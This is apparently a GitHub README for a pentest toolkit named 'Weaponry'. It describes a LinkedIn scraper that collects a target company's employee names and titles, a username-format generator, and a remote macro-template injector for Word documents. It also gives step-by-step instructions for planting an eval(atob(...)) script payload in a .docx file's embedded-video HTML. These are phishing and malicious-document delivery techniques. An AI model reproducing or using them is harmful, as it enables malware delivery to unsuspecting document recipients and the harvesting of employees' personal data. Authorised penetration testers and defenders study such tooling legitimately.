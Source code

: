 # Weaponry
A collection of tools for every PENTEST engagements

**MRV-LLC**
*Enumerates target company for employees' contact information via Linkedin service*

[*] Usage:
ruby mrv-lcc.rb -u <username> -c <company name> -p <optional>

OPTIONS:
- -u      Email address
- -c      Company name
- -p      (Optional, Default: ALL) EX: -p 3-4, only craw between page 3 to 4.
   
Results:

first,last, Title at X company

**MRV-USERNAME-GENERATOR**

ruby mrv-username-generator.rb -F format -f firstname -l lastname

./mrv-username-generator.rb --list-formats

Format
lastnamef - lastname + first initial
flastname - first initial + lastname
firstnamel - firstname + last initial
lfirstname - last initial + first name

**Word-Video-Embed**

- Create a word document with embedded video in it.
- Save your document to docx.
- Rename your document.docx to document.zip
- Open and Edit document.xml with a text editor of your choice.
- Find the line where it has "embeddedHtml".
- Delete all the default value from "embeddedHtml" and Replace with &lt;script&gt;eval(atob('BASE64'));&lt;/script&gt;.
- Replace the "base64Payload" in trigger.txt with your desired payload.
- On Linux device, run the command: base64 -w trigger.txt > triggerB64.txt
- On Windows device, use your favorite base64 encoder to encode the trigger.txt file. 
- Copy encoding to document.xml and replace the BASE64 word with the encoded payload. 
- Save document.xml and copy it back to word\document.xml 
- Rename document.zip to document.docx 

**MacroInjection.py**

python3 MacroInjection.py -h
Usage: MacroInjection.py [options] filename
Macro Remote Injection - Mr.V (Ring0Labs)

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -f File, --file=File  Word Document File Name, ex: myword.docm
  -t Type, --type=Type  Remote Server Type: smb | http | https  - Default
                        https
  -u URL, --url=URL     Remote Macro Template URL, ex: myserver.com/macro.dotm